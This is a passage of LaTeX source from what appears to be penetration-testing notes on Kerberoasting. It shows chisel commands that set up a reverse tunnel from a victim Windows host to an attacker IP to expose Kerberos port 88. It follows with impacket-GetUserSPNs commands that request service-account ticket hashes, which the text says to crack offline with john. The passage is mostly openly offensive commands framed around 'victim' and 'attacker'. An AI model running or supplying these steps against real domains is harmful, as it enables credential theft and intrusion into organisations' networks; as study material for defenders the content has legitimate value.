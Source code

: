 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\begin{document}
\begin{enumerate}
\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./chisel}\NormalTok{ server --reverse --port 1234}
\end{Highlighting}
\end{Shaded}
\item
  Port forward victim ports to attacker reverse server

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{C:\textbackslash{}temp\textbackslash{}chisel.}\FunctionTok{exe}\NormalTok{ client 10.}\FunctionTok{10}\NormalTok{.}\FunctionTok{10}\NormalTok{.}\FunctionTok{11}\NormalTok{:1234 R:88:127.}\FunctionTok{0}\NormalTok{.}\FunctionTok{0}\NormalTok{.}\FunctionTok{1}\NormalTok{:88}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Thats it. we can now execute the Kerberoasting attack. Of course the above commands are necessary if the port 88 are not
externaly opened.

\begin{itemize}
\item
  in the case of a victim with port 88 opened the attack will look as following:

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-GetUserSPNs}\NormalTok{ domain.local/user:password -request}
\end{Highlighting}
\end{Shaded}
\item
  in the case of having to perform a reverse port forwarding

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{impacket-GetUserSPNs}\NormalTok{ domain.local/user:password -request -dc-ip 127.0.0.1}
\end{Highlighting}
\end{Shaded}
\end{itemize}

You will then see the hash that you can copy in a file and execute a hashcrack with \textbf{john}.

\hypertarget{part-vuln-exploit-gaining-access}{%
\part{Vuln exploit \& Gaining Access}\label{part-vuln-exploit-gaining-access}}
\end{document}
